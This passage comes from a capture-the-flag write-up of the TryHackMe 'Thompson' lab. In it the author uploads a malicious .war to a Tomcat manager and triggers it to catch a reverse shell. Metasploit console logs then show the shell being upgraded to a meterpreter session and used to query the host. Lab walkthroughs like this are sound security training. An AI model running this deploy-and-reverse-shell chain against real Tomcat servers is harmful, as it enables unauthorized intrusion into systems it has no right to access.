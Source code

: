 After that, I uploaded the `.war` file to the manager console. You will notice the file is uploaded and a path is added to the `Applications` section with the file name. All you need to do now is to visit the url of that application to get a reverse shell. You can do this using `curl` or form the web browser.

![exploit uploaded](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/thm-writeup-thompson/image-4.png)

``` bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.17.0.212:1337 
[*] Command shell session 1 opened (10.17.0.212:1337 -> 10.10.202.226:44388) at 2024-07-11 10:00:10 -0400
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
^Z
Background session 1? [y/N]  y
msf6 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type              Information  Connection
  --  ----  ----              -----------  ----------
  1         shell java/linux               10.17.0.212:1337 -> 10.10.202.226:44388 (10.10.202.226)
```

Then I upgraded the session to a meterpreter session:

``` bash
msf6 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.17.0.212:4433 
[*] Sending stage (1017704 bytes) to 10.10.202.226
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/handler) > [*] Meterpreter session 2 opened (10.17.0.212:4433 -> 10.10.202.226:39476) at 2024-07-11 10:01:48 -0400

[*] Stopping exploit/multi/handler

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information             Connection
  --  ----  ----                   -----------             ----------
  1         shell java/linux                               10.17.0.212:1337 -> 10.10.202.226:44388 (10.10.202.226)
  2         meterpreter x86/linux  tomcat @ 10.10.202.226  10.17.0.212:4433 -> 10.10.202.226:39476 (10.10.202.226)

msf6 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: tomcat
meterpreter > sysinfo
Computer     : 10.10.202.226
OS           : Ubuntu 16.04 (Linux 4.4.0-159-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
```